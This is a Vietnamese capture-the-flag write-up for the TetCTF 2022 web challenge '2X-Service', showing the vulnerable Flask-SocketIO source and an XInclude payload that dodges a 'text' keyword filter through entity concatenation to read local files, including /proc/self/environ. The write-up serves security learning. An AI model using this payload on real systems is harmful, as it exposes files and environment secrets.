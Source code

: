 ```yaml
---
title: TetCTF 2022 | Web Exploitation | 2X-Service
date: 2022-01-03-7:33:00
---
```


# 2X-Service

![2x-service](https://user-images.githubusercontent.com/82533607/147850702-16a63ccc-ba1d-4543-81ac-4aa052659960.png)

> Well, đây là bài duy nhất mà tôi giải được trong 2 ngày TetCTF, vẫn còn non quá mà :(((

## Source code & analysis

### Source code:

Đây là source code của `app.py`:

```python
import random
import os
from flask import Flask, render_template, render_template_string, url_for, redirect, request
from flask_socketio import SocketIO, emit, send
from xml.etree import ElementTree, ElementInclude

app = Flask(__name__)

app.config['SECRET_KEY'] = 'XXXXXXXSECREKTXXXXXXXX'
socketio = SocketIO(app)

@app.route('/')
def index():
	return redirect(url_for('dashboard'))


@app.route('/dashboard')
def dashboard():
	return render_template('./dashboard.html')

@app.route('/source')
def source():
	return render_template('source.html')

@app.route('/about')
def about():
	return render_template('about.html')


@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')


@socketio.on('my event')
def handle_my_custom_event(json):
	print('received json: ' + str(json))

if __name__ == '__main__':
	socketio.run(app, host='0.0.0.0', port=8003)
```

### Analysis

Ở bài này sử dụng websocket thông qua `flask-socketio`, nhìn qua source code của `/dardboard` ta thấy có `jquery` và `socketio` được import sẵn, nhưng chưa khởi tạo `socket`:

```html
<link rel="stylesheet" href="static/css/tsu.css">
<script src="static/js/jquery.min.js"></script>
<script src="static/js/socket.io.js"></script>
<script src="static/js/tsu.js"></script>


<meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

  <div class="header">
    <a href="#default" class="logo">2X-Service</a>
    <div class="header-right">
      <a class="active" href="/">Home</a>
      <a href="/source">Source</a>
      <a href="/about">About</a>
    </div>
  </div>

<body>

<br><br>
<center>
	<div class="form" >
	    <label>XPATH</label><br>
	    <input type="text" id="xpath" placeholder="Ex: attribute"><br>

	    <label>XML</label>
	    <textarea type="text" id="xml" rows="25" placeholder="Ex:&#10;<person>&#10;<name>tsu</name>&#10;<attribute>deptrai</attribute>&#10;</person>" ></textarea>
	  
	    <input type="submit" id="process" value="Process">
	</div>
</center>
```

Vì vậy, để gửi được request từ client đến socket tại server, ta cần thiết lập socket, sau khi đọc qua doc của `flask-socket`, mình đã tạo ra đoạn code `jquery` như sau:

```js
// Define the socket
socket = io()
// Connect to server's socket
socket.connect('http://207.148.119.136:8003')
// Test connection:
socket.on('connect', function() {
    socket.send('hello?', 'hi')
    console.log(socket.connected)
})
// Listen to response, then log to console
socket.on('result', function (data) {
    console.log(data);
});
// Submit form's content to server's socket
$('.form').submit(function(){
    socket.send($('#xpath').val(), $('#xml').val())
})
```

Test thử xem sao:

![socket_connected](https://user-images.githubusercontent.com/82533607/147850835-c6220de1-ba84-482b-b38f-da04f3c15ecc.png)

Vậy là đã xong phần socket, bây giờ cần phân tích source code một chút, cụ thể là phần `message`:

```python
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```

## Exploit

Đọc qua thì sẽ thấy phần này khá giống bài [X-Service](https://dauhoangtai.github.io/ctf/2021/11/13/WRITEUP-SVATTT-FINAL-2021-WEB.html#challenge-x-service) của vòng chung kết SVATTT 2021.

Ta có thể sử dụng payload sau:

```xml
<?xml version='1.0'?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="path_of_the_file" parse="text"/>
</document>
```

Nhưng có một vấn đề là, `text` bị filter, sau khi đọc qua doc của [xi:include](https://www.w3.org/TR/xinclude-11) thì mình nhận ra rằng, chẳng có `parser` nào có thể giải quyết vấn đề này, vì vậy, chỉ còn cách làm thế nào để `text` xuất hiện mà không bị filter.

Thực ra mọi chuyện khá đơn giản, chúng ta có thể dùng phương pháp `concat` như sau:

- Đầu tiên, define 2 biến `te` và `xt` thông qua `ENTITY`

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>
```

- Tiếp theo, sử dụng 2 biến đó:

```xml
<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

> &te;&xt; <=> "te" + "xt" = "text"

Và ta có payload hoàn chỉnh:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

Sử dụng `xpath = *`, đầu tiên, thử trên local xem sao?

![test](https://user-images.githubusercontent.com/82533607/147851083-50c4ca78-6545-44eb-a839-51b320ac056b.png)

OK, vậy là payload hoạt động tốt, vậy thử trên server xem sao?

![test_server](https://user-images.githubusercontent.com/82533607/147851133-1ca3f3c1-3383-49ff-9735-fa62e78fe437.png)

Oh, vậy là file `flag.txt` có thể không tồn tại, vậy là nó nằm ở đâu?

Sau một hồi "fuzzing bằng cơm" thì tôi vô tình tìm thấy được flag tại `/proc/self/environ`:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="/proc/self/environ" parse="&te;&xt;"/>
</p>
</document>
```

![flag](https://user-images.githubusercontent.com/82533607/147851230-9c48d2de-6d3e-44f0-a123-6e741fcbc1bd.png)

Flag: `FLAG=TetCTF{Just_Warm_y0u_uP_:P__}`

> Từ sáng đến tối chỉ để giải được 1 bài web duy nhất 😞